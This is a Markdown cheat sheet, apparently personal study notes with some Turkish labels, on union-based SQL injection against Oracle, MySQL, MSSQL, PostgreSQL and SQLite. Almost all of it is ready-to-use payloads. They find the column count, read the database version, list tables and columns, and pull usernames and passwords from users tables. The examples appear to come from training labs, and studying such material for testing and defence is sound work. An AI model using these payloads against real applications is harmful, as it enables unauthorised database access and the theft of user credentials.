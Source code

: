 # Union-Based SQL Injection

### Tanım
- SELECT * FROM products WHERE category = 'Gifts' ...

- ==> +UNION+SELECT+NULL,NULL,NULL-- ==> ' order by 3-- --> ok

-------------------------------------

### UNION (Oracle)
- ' ORDER BY 1--
- ' UNION SELECT 'abc', 'def' FROM dual-- ==> ' order by 2-- --> ok
- ' UNION SELECT BANNER, NULL FROM v$version-- ==> versiyon öğrenme
- '+UNION+SELECT+table_name,NULL+FROM+all_tables-- 
    - ==> USERS_ABCDEF
- '+UNION+SELECT+column_name,NULL+FROM+all_tab_columns+WHERE+table_name='USERS_ABCDEF'-- 
    - ==> USERNAME_ABCDEF PASSWORD_ABCDEF
- '+UNION+SELECT+USERNAME_ABCDEF,+PASSWORD_ABCDEF+FROM+USERS_ABCDEF--

### UNION (MySQL, MSSQL (Microsoft SQL Server), PostgreSQL, SQLite)
- ' ORDER BY 1--
- ==> ' UNION SELECT 'abc', 'def'#
- ==> ' UNION SELECT @@version, NULL#
- ==> '+UNION+SELECT+'abc','def'--
- ==> '+UNION+SELECT+table_name,+NULL+FROM+information_schema.tables--
- ==> '+UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name='users_abcdef'--
- ==> '+UNION+SELECT+username_abcdef,+password_abcdef+FROM+users_abcdef--

-------------------------------------

- ==> ' UNION SELECT table_name, NULL FROM all_tables--
- ==> '+UNION+SELECT+NULL,NULL,NULL--
- ==> '+UNION+SELECT+'abc','def'--
- ==> ' UNION SELECT column_name, NULL FROM all_tab_columns WHERE table_name = 'USERS'--
- ==> ' UNION SELECT username, password FROM users--
- ==> ' UNION SELECT NULL, username || '~' || password FROM users--
